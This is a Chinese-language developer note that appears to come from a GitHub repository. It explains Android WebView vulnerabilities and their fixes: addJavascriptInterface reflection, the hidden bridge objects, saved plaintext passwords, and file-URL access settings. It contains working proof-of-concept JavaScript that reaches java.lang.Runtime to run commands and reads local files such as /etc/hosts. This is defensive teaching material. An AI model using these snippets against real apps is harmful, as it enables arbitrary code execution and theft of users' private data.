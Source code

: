 ### 使用Hybrid开发，需要了解的webview那些漏洞
#### 类型
1. 任意代码执行漏洞
    - addJavascriptInterface（）
    - webview内置到处的searchBoxJavaBridge 对象
    - webview内置导出的accesssibility和accessibilityTraversalObject对象
2. 密码明文存储漏洞
3. 域控制不严格漏洞
#### 具体分析
1. 任意代码执行漏洞
    - addJavascriptInterface（）接口
        - 漏洞产生原因：
        ```
        webView.addJavascriptInterface(new JSObject(), "myObj");
        // 参数1：Android的本地对象
        // 参数2：JS的对象
        // 通过对象映射将Android中的本地对象和JS中的对象进行关联，从而实现JS调用Android的对象和方法
        所以，漏洞产生的原因是：当js拿到android这个对象后，从而实现js调用android对象中所有的方法，包括系统类，从而进行任意代码执行。如可以执行命令获取本地设备的sd卡中的文件等信息从而造成信息泄露。
        ```
        - 具体获取系统类的描述（结合java反射机制）
            - android中的对象有一公共的方法：getClass();
            - 该方法可以获取到当前类 类型Class
            - 该类有一关键的方法：Class.forName()
            - 该方法可以加载一个类（java.lang.Runtime）
            - 而且该类是可以执行本地命令的
        - js攻击核心代码
            ```
                function execute(cmdArgs)  
                {  
                    // 步骤1：遍历 window 对象
                    // 目的是为了找到包含 getClass （）的对象
                    // 因为Android映射的JS对象也在window中，所以肯定会遍历到
                    for (var obj in window) {  
                        if ("getClass" in window[obj]) {  

                    // 步骤2：利用反射调用forName（）得到Runtime类对象
                            alert(obj);          
                            return  window[obj].getClass().forName("java.lang.Runtime")  

                    // 步骤3：以后，就可以调用静态方法来执行一些命令，比如访问文件的命令
                getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);  

                // 从执行命令后返回的输入流中得到字符串，有很严重暴露隐私的危险。
                // 如执行完访问文件的命令之后，就可以得到文件名的信息了。
                        }  
                    }  
                }   
            ```
        - 当一些 APP 通过扫描二维码打开一个外部网页时，攻击者就可以执行这段 js 代码进行漏洞攻击。在微信盛行、扫一扫行为普及的情况下，该漏洞的危险性非常大
        - 具体解决方案:
            - 方案一：在Android 4.2 版本中规定对被调用的函数以 @JavascriptInterface进行注解从而避免漏洞攻击
            - 方案二：在Android 4.2版本之前采用拦截prompt（）进行漏洞修复。
                - 具体步骤：继承WebView，重写addJavascriptInterface（）方法，然后在内部自己维护一个对象映射关系的Map；将需要添加的js接口放入该map中
                - 每次当WebView加载页面前，加载一段本地代码的js代码。原理是：
                    - 让js调用一JavaScript方法：该方法是通过调用prompt()把js中的信息（含有特点标识，方法名称，参数等）传递到android端；
                    - 在android的onJsPrompt()中，解析传递过来的信息，再通过反射机制调用java对象的方法，这样实现安全的js调用android代码。
                    - 关于android返回给js的值：可以通过prompt（）把java中方法的处理结果返回到js中
    - webview内置到处的searchBoxJavaBridge_对象
        - 原因：在Android 3.0以下，Android系统会默认通过searchBoxJavaBridge_的Js接口给 WebView 添加一个JS映射对象：**searchBoxJavaBridge_对象**。该接口可能被利用，实现远程任意代码。
        - 解决方案：删除searchBoxJavaBridge_的js接口
        ```
            // 通过调用该方法删除接口
            removeJavascriptInterface（）；
        ```
    - webview内置导出的accesssibility和accessibilityTraversalObject对象
        - 同searchBoxJavaBridge_对象
2. 密码明文存储漏洞
    - WebView默认开启密码保存功能 ：mWebView.setSavePassword(true)`
    - 开启后，在用户输入密码时，会弹出提示框：询问用户是否保存密码；如果选择”是”，密码会被明文保到 /data/data/com.package.name/databases/webview.db 中，这样就有被盗取密码的危险
    - 解决方案：关闭密码保存提醒，WebSettings.setSavePassword(false) 
3. 域控制不严格漏洞
    - 即 A 应用可以通过 B 应用导出的 Activity 让 B 应用加载一个恶意的 file 协议的 url，从而可以获取 B 应用的内部私有文件，从而带来数据泄露威胁。。具体：当其他应用启动此 Activity 时， intent 中的 data 直接被当作 url 来加载（假定传进来的 url 为 file:///data/local/tmp/attack.html ），其他 APP 通过使用显式 ComponentName 或者其他类似方式就可以很轻松的启动该 WebViewActivity 并加载恶意url。
    - 下面我们着重分析WebView中getSettings类的方法对 WebView 安全性的影响：
        - setAllowFileAccess（）
        ```
            // 设置是否允许 WebView 使用 File 协议
            webView.getSettings().setAllowFileAccess(true);     
            // 默认设置为true，即允许在 File 域下执行任意 JavaScript 代码；
            // 如果是false，则不会存在上述的威胁，但同时也限制了 WebView 的功能，使其不能加载本地的 html 文件
        ```
        使用 file 域加载的 js代码能够使用进行**同源策略跨域访问**，从而导致隐私信息泄露
        1. 同源策略跨域访问：对私有目录文件进行访问
        2. 针对IM类产品，泄漏的是聊天信息，以及联系人等
        3. 针对浏览器类软件，泄漏的是cookie信息
        4. 解决该问题方案：则需要对不使用file协议的业务禁用，对使用file协议的启用
        ```
            // 禁止 file 协议加载 JavaScript
            if (url.startsWith("file://") {
                setJavaScriptEnabled(false);
            } else {
                setJavaScriptEnabled(true);
            }
        ```
        - setAllowFileAccessFromFileURLs（）:设置是否允许通过 file url 加载的 Js代码读取其他的本地文件
            ```
                当AllowFileAccessFromFileURLs（）设置为 true 时，攻击者的JS代码为：
                <script>
                    function loadXMLDoc()
                    {
                        var arm = "file:///etc/hosts";
                        var xmlhttp;
                        if (window.XMLHttpRequest)
                        {
                            xmlhttp=new XMLHttpRequest();
                        }
                        xmlhttp.onreadystatechange=function()
                        {
                            //alert("status is"+xmlhttp.status);
                            if (xmlhttp.readyState==4)
                            {
                                console.log(xmlhttp.responseText);
                            }
                        }
                        xmlhttp.open("GET",arm);
                        xmlhttp.send(null);
                    }
                    loadXMLDoc();
                    </script>

                    // 通过该代码可成功读取 /etc/hosts 的内容数据
            ```
            - 解决方案：设置setAllowFileAccessFromFileURLs(false);当设置成为 false 时，上述JS的攻击代码执行会导致错误，表示浏览器禁止从 file url 中的 javascript 读取其它本地文件。
        - setAllowUniversalAccessFromFileURLs（）: 设置是否允许通过 file url 加载的 Javascript 可以访问其他的源(包括http、https等源)。// 在Android 4.1前默认允许（setAllowFileAccessFromFileURLs（）不起作用）// 在Android 4.1后默认禁止
            - ```
                当AllowFileAccessFromFileURLs（）被设置成true时，攻击者的JS代码是：
                // 通过该代码可成功读取 http://www.so.com 的内容
                    <script>
                    function loadXMLDoc()
                    {
                        var arm = "http://www.so.com";
                        var xmlhttp;
                        if (window.XMLHttpRequest)
                        {
                            xmlhttp=new XMLHttpRequest();
                        }
                        xmlhttp.onreadystatechange=function()
                        {
                            //alert("status is"+xmlhttp.status);
                            if (xmlhttp.readyState==4)
                            {
                                console.log(xmlhttp.responseText);
                            }
                        }
                        xmlhttp.open("GET",arm);
                        xmlhttp.send(null);
                    }
                    loadXMLDoc();
                    </script>
                解决方案：设置setAllowUniversalAccessFromFileURLs(false);
            ```
        - setJavaScriptEnabled（）:设置是否允许 WebView 使用 JavaScript（默认是不允许）.但很多应用（包括移动浏览器）为了让 WebView 执行 http 协议中的 JavaScript，都会主动设置为true，不区别对待是非常危险的。

    - 


#### 总结